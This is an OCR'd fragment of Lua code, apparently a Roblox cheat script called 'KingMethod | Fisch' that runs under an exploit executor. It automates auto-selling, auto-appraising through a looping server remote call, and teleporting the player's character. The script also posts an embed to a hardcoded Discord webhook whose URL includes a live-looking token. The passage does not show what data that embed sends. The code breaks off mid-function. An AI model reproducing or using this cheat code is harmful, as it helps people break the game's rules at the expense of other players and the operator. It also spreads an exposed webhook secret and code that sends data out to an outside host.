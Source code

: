                         embeds = { Embed }
                    }),
                }
            end)
            
            if not success then
                warn("Failed to send data to webhook:", response)
            else
                print("Webhook response:", response.StatusCode, response.Body)
            end
            local success, response = pcall(function()
                return (syn and syn.request or http_request) {
                    Url = "https://discord.com/api/webhooks/1301587140970414202/baLDe8W1rg9A6WXmkOSon4O3Ax0OmYjwCCUCamEoAfokIMzyx6XzJDNYLnITVX5yGD40",
                    Method = 'POST',
                    Headers = { ['Content-Type'] = 'application/json' },
                    Body = game:GetService('HttpService'):JSONEncode({
                        username = 'KingMethod | Fisch',
                        avatar_url = 'https://cdn.discordapp.com/icons/1241045437884923965/6e134ec00e5adf7fc7f82fcabce45e8a.webp?size=4096',
                        embeds = { Embed }
                    }),
                }
            end)
            
            if not success then
                warn("Failed to send data to webhook:", response)
            else
                print("Webhook response:", response.StatusCode, response.Body)
            end
        end
    end)
end
function AutoSellz()
    spawn(function()
        while AutoSell do
            SellFishAndReturnAll()
            task.wait(AutoSellDelay)
        end
    end)
end
function Appraise()
    spawn(function()
        while AutoAppraiser do
            workspace:WaitForChild("world"):WaitForChild("npcs"):WaitForChild("Appraiser"):WaitForChild("appraiser"):WaitForChild("appraise"):InvokeServer()
            task.wait(0.1)
        end
    end)
end

function SellFishAndReturnAll()
    local player = game.Players.LocalPlayer
    local character = player.Character or player.CharacterAdded:Wait()
    local rootPart = character:WaitForChild("HumanoidRootPart")
    local currentPosition = rootPart.CFrame
    local sellPosition = CFrame.new(464, 151, 232)
    local wasAutoFreezeActive = false
    if AutoFreeze then
        wasAutoFreezeActive = true
        AutoFreeze = false
    end
    rootPart.CFrame = sellPosition
    task.wait(0.5)